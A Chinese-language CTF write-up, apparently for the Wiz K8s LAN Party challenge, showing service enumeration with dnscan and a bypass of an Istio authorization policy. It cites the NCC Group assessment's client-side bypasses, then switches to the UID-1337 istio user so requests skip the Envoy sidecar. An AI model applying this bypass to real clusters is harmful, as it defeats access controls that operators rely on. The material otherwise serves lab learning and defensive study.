 收集一下 Istio svc 

```bash
dnscan -subnet 10.100.0.1/16
```

![Untitled](image/2024-03-22/Untitled%202.png)

为：`istio-protected-pod-service.k8s-lan-party.svc.cluster.local.`

直接请求

```bash
curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local.

RBAC: access denied
```

会被policy授权策略禁止访问

NCC Group 2020年对Istio做过一次安全评估：（报告里搜索 `Istio Client-Side Bypasses`）

[https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf](https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf) 

提到Istio客户端存在一些bypass方法

- UDP协议，因为 Istio 不处理 UDP 数据包
- 1337 用户 UID，Istio的sidecar创建基于UID的iptables规则。如果Pod中的主容器以UID 1337运行就能绕过使用Envoy代理sidecar的iptables规则，规则详情见 [https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables)
- `CAP_SETUID` 容器权限，当容器具有CAP_SETUID（一个默认权限）时，任何具有该权限的进程都可以将其UID更改为1337，从而实现上述绕过
- 当容器被授予`CAP_NET_ADMIN`权限时，它可以重写自己的iptables规则并绕过Envoy代理
- 入站端口绕过，和这题没什么关系

根据题目介绍，以及我们用的 shell，这次给的用户是 root

```bash
root@wiz-k8s-lan-party:~# id

uid=0(root) gid=0(root) groups=0(root)
```

Pod 内的主容器和sidecar容器共享用户命名空间

```bash
root@wiz-k8s-lan-party:~# cat /etc/passwd | grep 1337

istio:x:1337:1337::/home/istio:/bin/sh
```

因此可以利用 1337 用户 UID 绕过 Istio 的出站规则

```bash
root@wiz-k8s-lan-party:~# su istio

$ curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
```
